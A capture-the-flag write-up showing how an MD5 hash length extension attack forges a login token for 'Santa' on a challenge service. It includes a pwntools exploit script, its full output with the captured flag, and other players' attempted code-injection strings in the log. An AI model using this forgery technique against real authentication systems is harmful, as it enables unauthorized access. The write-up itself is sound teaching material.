In the program we want to be authenticated as Santa to view wishes.txt, the authentication passes as long as the username contains word "Santa", it doesn't have to be exactly "Santa".

For example, the original token is computed by MD5(SECRET + "aaaa"), and we get the hash as login token from the service. With the tool hash extender (https://github.com/iagox86/hash_extender), which implements length extension attack, we can append the word "Santa" to the original username and get a valid MD5 hash, which will be same as if it was computed using the SECRET value. (MD5(SECRET + "aaaa"+appended_text) )

Due to the generated appended string contains non printable characters, we used pwntools to sent the bytes to the service.

```
from pwn import *

conn = remote("13.213.3.148",1337)
print(conn.recvuntil(":"))

conn.sendline("1".encode())
print(conn.recvuntil(":"))
conn.sendline("aaaa".encode())
token = conn.recvline()
print(token)
token = token.decode().split(':')[1][1:-1]

print(token)
print(conn.recvuntil("option:"))

conn.sendline("2".encode())
print(conn.recvuntil(":"))

new_name = input("new name")
new_name = bytes.fromhex(new_name)
conn.sendline(new_name)
print(conn.recvuntil(":"))
new_token = input("new token")
conn.sendline(new_token.encode())
conn.interactive()
```

Output log of the script and service

```
[x] Opening connection to 13.213.3.148 on port 1337
[x] Opening connection to 13.213.3.148 on port 1337: Trying 13.213.3.148
D:/downloads/tmp/wgmy_ctf/hohoho/test.py:4: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(conn.recvuntil(":"))
[+] Opening connection to 13.213.3.148 on port 1337: Done
D:/downloads/tmp/wgmy_ctf/hohoho/test.py:7: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(conn.recvuntil(":"))
b'Want to make a wish for this Christmas? Submit here and we will tell Santa!!\n\n1. Register\n2. Login\n3. Make a wish\n4. Wishlist (Santa Only)\n5. Exit\nEnter option:'
b' Enter your name:'
b' Use this token to login: 032fc74398d4b89d08e059989ea68dee\n'
032fc74398d4b89d08e059989ea68dee
b'\n1. Register\n2. Login\n3. Make a wish\n4. Wishlist (Santa Only)\n5. Exit\nEnter option:'
D:/downloads/tmp/wgmy_ctf/hohoho/test.py:14: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(conn.recvuntil("option:"))
D:/downloads/tmp/wgmy_ctf/hohoho/test.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(conn.recvuntil(":"))
b' Enter your name:'
new name616161618000000000000000000000000000000000000000000000000000000000000000000000000000000000000000600000000000000053616e7461
D:/downloads/tmp/wgmy_ctf/hohoho/test.py:22: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(conn.recvuntil(":"))
b' Enter your token:'
new token74454ac998704d9f726baa7ef5e1926a
[*] Switching to interactive mode
 Login successfully as aaaa�                                           `       Santa
Now you can make a wish!

1. Register
2. Login
3. Make a wish
4. Wishlist (Santa Only)
5. Exit
Enter option: 4
Wishes:
Santa Claus: Merry Christmas! Flag: wgmy{6bd7f862cbfa8b802a63b09979d00ee6}
we: flag
amin: flag
admin: hello
elf: flag
abc: I want a Boyfriend
santa: ctf
abc: abu hensem
putra: win
a: a
wan: flag
: Santa
putra: flag
jem: hi
hazraf: rich
d: got flag
santa: Santa
santa: to be Santa
a: i want the flag uwu
hoo: 4
hoo: as
hoo: a12
test: flag
fsragnhtfa: I want to get a flag please
fsragnhtfa: Flag
fsragnhtfa: Flag
fsragnhtfa: Flag
fsragnhtfa: wgmy{} flag
fsragnhtfa: Tell me the flag location
ja: christmas tree
Nciholas: asd
santa: Santa
}wishes=open("wishes.txt","r").read()print(wishes){wish: }wishes=open("wishes.txt","r").read()print(wishes){wish
}wishes=open("wishes.txt","r").read()print(wishes){wish: s}\n")wishes=open("wishes.txt","r").read()print(wishes)
s: s}\n") wishes=open("wishes.txt","r").read() print(wishes)
jack: flag pls
anne: My future career is bright.
santa: flag
damien: flag please
abc: flag
abc: Santa
Ssantaa: nak sp5
sku1rr3l: Santa's token
admin: 1
kali: wish
man: flag
anne: wish
anne: asas
anne: daaa
anne: aasas

1. Register
2. Login
3. Make a wish
4. Wishlist (Santa Only)
5. Exit
Enter option: 
"""
```

Finally, the flag is wgmy{6bd7f862cbfa8b802a63b09979d00ee6}

## Team Members
- John Law
- Desmond Kang
